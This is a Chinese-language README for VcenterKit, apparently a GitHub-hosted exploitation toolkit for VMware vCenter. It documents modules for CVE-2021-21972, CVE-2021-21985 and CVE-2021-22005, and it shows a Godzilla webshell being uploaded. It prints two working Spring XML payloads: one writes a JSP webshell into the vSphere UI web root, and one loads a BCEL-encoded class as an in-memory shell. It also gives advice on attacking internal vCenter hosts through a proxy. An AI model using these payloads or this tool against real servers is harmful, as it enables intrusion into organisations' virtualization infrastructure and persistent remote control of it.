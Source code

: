 ![VcenterKit](https://socialify.git.ci/W01fh4cker/VcenterKit/image?description=1&descriptionEditable=Vcenter%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7%E5%8C%85%20%7C%20Vcenter%20Comprehensive%20Penetration%20and%20Exploitation%20Toolkit&font=Rokkitt&forks=1&issues=1&language=1&logo=https%3A%2F%2Fs2.loli.net%2F2022%2F06%2F25%2FgUAh2V5CiD96y8G.jpg&owner=1&pattern=Circuit%20Board&pulls=1&stargazers=1)

# 1. 使用说明

## 1.1 安装与启动

推荐使用`Python3.9`，其余版本未测试。

```shell
pip install -r requirements.txt
python VcenterKit.py
```

## 1.2 信息收集模块

直接输入`url`即可进行信息搜集，如果存在本地文件读取的话，程序会自动读取数据库文件；有些网站是没有`sdk`接口的，也就无法通过这种方式来查询信息，后续会研究其他的方法：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824001431.png)

## 1.3 CVE-2021-21972模块

主要利用思维导图如下：

可以看到，并非所有情况下都能`100%`成功上传文件的，因此这里我把这些利用链（除了写`authorized_keys`）全部写在代码里面了，依次尝试。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/9f185d40dfc9057818ed93226aeb279.png)

这里放上之前测试利用搭建的环境的截图：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/8bd245ffada0baa39a3059c73764bed.jpg)

上传哥斯拉马：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/11edd12a79387cb0d58d2a24b86ca10.jpg)

## 1.4 CVE-2021-21985模块

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824002229.png)

需要注意的是，这里的`RMI`和`Command`只能二选一填写，目前`rmi`由于测试环境的问题，还没有进行测试，可能会有问题，但是`command`目前测试下来没什么问题，这里放上一张之前写的时候测试的截图：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/e39abf9b303b95372fa666e919cf705.png)

需要注意的是，当前版本（`v0.0.1`）的`shell`上传和内存马打入模块还没实现。但是核心思想就是替换`xml`：

>  以下参考：https://daidaitiehanhan.github.io/2022/04/18/vCenter2021几个漏洞及后渗透/#不出网利用

上传`shell`的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.io.PrintWriter">
        <constructor-arg>
            <value>/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/log2.jsp</value>
        </constructor-arg>
    </bean>
    <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[<% out.println("ok"); %> ]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.println(is).close()}"/>
    </bean>
</beans>
```

打内存马要用到的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="com.sun.org.apache.bcel.internal.util.ClassLoader">
    </bean>
        <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[$$BCEL$$...]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.loadClass(is).newInstance()}"/>
    </bean>
</beans>
```

等后面有时间了写上，当然，你可以来写，然后提`pr`，我看到会第一时间回复。

## 1.5 CVE-2021-22005模块

这里的`shell name`可写可不写，不写的话就是自动生成`6`位的名字。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003746.png)

测试截图：
![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003704.png)

## 1.6 CVE-2022-22954（下个版本更新）

预览图如下：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003914.png)

## 1.7 CVE-2022-22972（下个版本更新）

预览：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824004009.png)

## 1.8 后渗透利用模块（下个版本更新）

本来是想把这些脚本集成到工具里面的，但是转念一想，没必要，直接弄成点按钮生成脚本到本地这种形式就可以了，这样直接一个工具走天下。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824004100.png)

## 1.9 渗透测试记事本

后面会放一些打vcenter的时候常用的命令、常看的文章上去

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824004255.png)

# 2. Q&A

## 2.1 代理问题？

因为`vcenter`大多数位于内网，因此都是`proxifer`挂代理打，也就不怎么需要程序本身加个代理功能，我也懒得写了。

## 2.2 长期维护吗？

长期维护！本工具会和未来出的一系列工具，例如后面会开始写的`ExchangeKit`一样，都是我长期维护的项目，和之前的`Serein`(https://github.com/W01fh4cker/Serein)不一样（那个时候代码水平不行，加上`tkinter`做图形化太难受了，就不想维护了）。

## 2.3 代码写的有逻辑问题/有bug/有新利用方式，如何沟通？

类似的问题，直接提交`issues`(https://github.com/W01fh4cker/VcenterKit/issues)，描述清楚相关环境，和具体细节，我看到之后会在当天内回复，一般20分钟内就会回复（因为我的电子邮件可以实时收到消息）。

如果有代码能力的话，欢迎提交`pull request`。

## 2.4 想参与进来，共同维护？

没问题，提交`pull request`，贡献代码。

## 2.5 和其他工具相比的优缺点？

`Akatsuki`师傅（https://github.com/Schira4396）写的`VcenterKiller`是我非常喜欢的一个利用工具，我的`VcenterKit`与其定位并不相同，我这个是用于本地挂代理测试内网或者外网的`vcenter`漏洞，并且由于方便而弄了个`pyqt5`做图形化，这直接导致打包后的`exe`体积非常非常大；而`VcenterKiller`则是用`go`语言写的一款小巧的利用工具，可以直接传至对方服务器运行，也可以本地运行，可以跨平台，非常的方便。

对于`CVE-2021-21972`这个漏洞而言，本工具可以自定义`shell`的名字，并且自动尝试数种利用链，用起来还是很舒服的，哈哈。

工具只是辅助，写工具的过程是了解漏洞的很好的方式，从中获得经验，足矣。

# 3. TODO

* [ ] 完成未完成的几个模块的功能编写
* [ ] 研究`CVE-2021-21985`的上传`shell`和打内存马的方式
* [ ] 你们提建议

# 4. 微信公众号：追梦信安

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824010900.png)